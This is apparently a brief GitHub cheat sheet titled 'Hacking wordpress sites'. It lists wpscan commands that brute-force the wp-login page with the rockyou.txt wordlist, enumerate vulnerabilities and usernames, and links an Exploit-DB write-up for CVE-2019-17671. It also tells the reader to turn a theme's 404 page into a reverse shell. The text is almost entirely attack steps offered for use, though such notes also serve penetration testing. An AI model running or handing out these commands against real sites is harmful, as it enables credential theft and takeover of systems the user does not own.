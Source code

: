 ## Hacking wordpress sites

## Bruteforce login
wpscan --url http://IP/blog/wp-login.php --passwords rockyou.txt --usernames admin --max-threads 60 

## Multiple vulnerability scan types
wpscan --url IP -e 

## Enumerate usernames
wpscan --url https://target.tld/ --enumerate u

# CVE 2019-17671
[Exploit-DB writeup](https://www.exploit-db.com/exploits/47690)

# Reversee shell
Edit the wordpress theme's 404 page and set it to become a reverse shell.
